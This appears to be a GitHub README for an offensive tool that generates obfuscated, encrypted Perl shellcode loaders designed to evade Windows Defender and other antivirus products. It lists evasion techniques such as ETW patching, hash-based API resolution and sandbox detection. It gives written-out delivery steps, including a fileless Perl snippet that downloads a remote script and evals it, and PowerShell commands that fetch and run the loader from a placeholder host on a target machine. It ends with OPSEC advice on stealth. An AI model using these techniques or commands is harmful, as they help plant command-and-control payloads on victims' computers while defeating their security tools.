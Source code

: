 ### Invoke-Perl-ShellCodeLoader.pl
--------------------------------------
'Invoke-Perl-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted shellcode loader (Perl script) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode injection into the memory of the current process (Perl)
  - Shellcode encryption (XOR) and compression (Zlib)
  - Script obfuscation (randomized function and variable names + nested payloads with reflective loading)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Dynamic API resolution for the shellcode injection (via GetProcAddress + hash-based API resolution)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit, Sliver and Havoc

#### USAGE
- STEP 1. Generate an obfuscated shellcode loader (Perl script) using a raw shellcode from your preferred C2 framework as input.
```
Example:
C:\path\perl> perl.exe .\Invoke-Perl-ShellCodeLoader.pl ".\raw-C2-shellcode.bin" ".\obfuscated_shellcodeloader.pl"
```

- STEP 2. Multiple options exist to download & execute the obfuscated shellcode loader (Perl script) on a target Windows computer

  - Option A: Utilize a portable Perl interpreter (https://strawberryperl.com/) + Fileless delivery of the obfuscated shellcode loader (Perl script) 
```
1 - Download the Strawberry Perl zip archive file from "strawberryperl.com" which provides a portable Perl interpreter with a good reputation.
    Note: the portable Perl zip archive is quite big and it can be lightened > for instance we can delete the 'c' folder that is 812 MB.
    Example:
    --------
    PS C:\temp> wget -uri https://github.com/StrawberryPerl/Perl-Dist-Strawberry/releases/download/SP_54021_64bit_UCRT/strawberry-perl-5.40.2.1-64bit-portable.zip -OutFile C:\temp\perl.zip
    PS C:\temp> tar -xf .\perl.zip

2 - Download from a remote web server and execute directly in memory the obfuscated shellcode loader script on the target Windows machine using Perl.
    This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\perl-portable\perl\bin> type .\Perl-fileless-delivery.pl
    #Perl
    use LWP::Simple;
    my $url = 'http://example.com/obfuscated_shellcodeloader.pl';
    my $script = get($url);
    eval $script;

    C:\temp\perl-portable\perl\bin> perl.exe .\Perl-fileless-delivery.pl
```
  - Option B: Utilize a portable Perl interpreter (https://strawberryperl.com/) + Download the obfuscated shellcode loader (Perl script) locally before execution.
```
1 - Download the Strawberry Perl zip archive file from "strawberryperl.com" which provides a portable Perl interpreter with a good reputation.
    Note: the portable Perl zip archive is quite big and it can be lightened > for instance we can delete the 'c' folder that is 812 MB.
    Example:
    --------
    PS C:\temp> wget -uri https://github.com/StrawberryPerl/Perl-Dist-Strawberry/releases/download/SP_54021_64bit_UCRT/strawberry-perl-5.40.2.1-64bit-portable.zip -OutFile C:\temp\perl.zip
    PS C:\temp> tar -xf .\perl.zip

2 - Download and store the obfuscated shellcode loader script locally on disk before executing it with Perl.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\perl-portable\perl\bin> powershell -c "wget -uri http://X.X.X.X/obfuscated_shellcodeloader.pl -OutFile C:\temp\perl-portable\perl\bin\obfuscated_shellcodeloader.pl"
    C:\temp\perl-portable\perl\bin> perl.exe .\obfuscated_shellcodeloader.pl
```
  - Option C (not recommended): Use Perl2Exe or "Strawberry Perl + PAR::Packer" to bundle the obfuscated shellcode loader Perl script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer
```
1 - Bundle the obfuscated shellcode loader Perl script into a single executable (e.g. script.exe)
    Example with "Strawberry Perl + PAR::Packer":
    ---------------------------------------------
    C:\path\perl\bin> set PAR_VERBATIM=1
    C:\path\perl\bin> pp -o script.exe -M MIME::Base64 -M Compress::Zlib obfuscated_shellcodeloader.pl

2 - Download and execute the obfuscated shellcode loader "script.exe" on a target Windows computer
    Important note => Many antivirus products (including Windows Defender) detect as malicious perl script embeded in "exe" file.
    Example:
    --------
    C:\temp> powershell -c "wget -uri http://X.X.X.X/script.exe -OutFile C:\temp\script.exe"
    C:\temp> script.exe
```

#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating your obfuscated shellcode loader.
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
